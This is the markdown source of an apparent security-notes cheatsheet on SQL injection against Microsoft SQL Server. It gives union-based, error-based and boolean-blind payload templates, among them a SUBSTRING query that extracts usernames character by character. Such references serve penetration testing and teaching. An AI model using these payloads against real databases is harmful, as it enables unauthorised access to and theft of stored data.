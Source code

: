```yaml
---
title:  "MSSQL Cheatsheet"
imgdir: 
tags: web sql
excerpt: Cheatsheet for Microsoft SQL
date: 2021-11-06
---
```


Note: the segments enclosed in double carets (^^) need to be replaced with the indicated value - examples have been provided where practical.
{: .notice--info}

# MSSQL Injection
## Union based 
([ftb](/articles/owasp10/SQLi/#union-based))

| Function | Command | Ref. |
| --- | --- |---|
| Get Column Count | `ORDER BY ^^column_id^^;`{:.language-sql .highlight}<br>eg.`ORDER BY 1;`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/t-sql/queries/select-order-by-clause-transact-sql) |
| Get Returned Columns | `UNION ALL SELECT 1,2,3;`{:.language-sql .highlight} (incrementing up to column count) | |
|===|===|===|

## Error based
([ftb](/articles/owasp10/SQLi/#error-based))

| Function | Command | Ref. |
| --- | --- |---|
| Trigger error on query | `CONVERT(int,^^query returning string^^);`{:.language-sql .highlight}<br>eg.`CONVERT(int,SELECT @@version);`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql) |
|  | `CAST((^^query returning string^^) as int);`{:.language-sql .highlight}<br>eg.`CAST((SELECT @@version) as int);`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql) |
|===|===|===|

## Blind - Boolean based
([ftb](/articles/owasp10/SQLi/#boolean-based))

| Function | Command | Ref. |
| --- | --- |---|
| Testing True | `OR '1'='1';`{:.language-sql .highlight} |  |
|  | `AND '1'='1';`{:.language-sql .highlight} |  |
| Testing False | `OR '1'='0';`{:.language-sql .highlight} |  |
|  | `AND '1'='0';`{:.language-sql .highlight} |  |
| Binary character discovery | `AND SUBSTRING((SELECT username FROM users WHERE id = 1), 1, 1) > 'm';`{:.language-sql .highlight} |  |
|===|===|===|
